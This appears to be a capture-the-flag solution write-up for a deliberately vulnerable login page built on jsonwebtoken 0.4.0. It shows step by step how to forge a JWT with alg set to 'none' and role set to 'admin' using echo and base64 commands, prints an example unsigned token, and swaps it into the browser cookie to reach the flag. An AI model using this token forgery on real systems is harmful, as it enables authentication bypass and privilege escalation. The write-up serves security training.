 # Solution

*Version of jsonwebtoken package needs to be exactly (vulnerable)*
> "jsonwebtoken": "0.4.0",


1. Access page and try to login with whatever
2. Login fail but a hint to try with test/test is displayed
3. Try to login with `test/test` => success, but not that much else
4. Checking the application tab in dev tools reveals that a cookie is created containing a JWT token
5. Use https://jwt.io to decode token and see what's inside or use 
Craft a token using same info from token but changing alg to "none" and role to "admin" (or whatever different than "user")

## Method 1
Replace value of "auth" property with the one of original token in `./SOLUTION/solution.js` then
```
node ./SOLUTION/solution.js
```

## Method 2
Generate token manually

### header
```
echo -n '{"typ":"JWT","alg":"none" }' | base64
```
### payload
```
echo -n '{"auth": <VALUE_FROM_ORIG_TOKEN>,"role": "admin","iat": <VALUE_FROM_ORIG_TOKEN>}' | base64
```
### sign
No sign

### altogether
header.payload.sign gives for example:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIiB9.eyJhdXRoIjogMTYzMTE0Nzc3MzAzMSwiYWdlbnQiOiAiTW96aWxsYS81LjAgKE1hY2ludG9zaDsgSW50ZWwgTWFjIE9TIFggMTBfMTVfNykgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzkyLjA.
```

6. Replace token value in browser cookie with crafted one
7. Refresh page `/private`
8. Flag should be displayed on page